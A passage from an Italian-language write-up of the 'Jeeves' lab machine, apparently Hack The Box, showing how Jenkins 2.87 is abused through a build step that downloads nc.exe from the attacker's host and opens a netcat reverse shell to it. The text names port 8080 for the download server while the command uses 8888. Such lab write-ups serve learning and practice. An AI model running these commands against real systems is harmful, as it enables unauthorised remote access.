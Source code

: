   <img src="/Immagini/Windows-Box/Jeeves/jeeves-4.png"/>
</p>

Quindi la directory _askjeeves_ contiene _jenkins 2.87_.

## Exploitation

Dopo aver fatto delle ricerche scopro che è possbile ottenere una reverse shell attraverso la creazione di un nuovo item. In particolare nella sezione "BUILD" bisogna selezionare la voce "Execute Windows batch command" e inserire il seguente codice:

```text
powershell wget "http://10.10.14.7:8888/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.7 4444
```

Prima di completare salvare il nuovo item, scarico netcat da [qui](https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip), avvio un server sulla porta 8080 per poter scaricare l'eseguibile nc.exe (dalla macchina vittima) e un listener sulla porta 4444.

<p align="center">
  <img src="/Immagini/Windows-Box/Jeeves/jeeves-6.png"/>
</p>
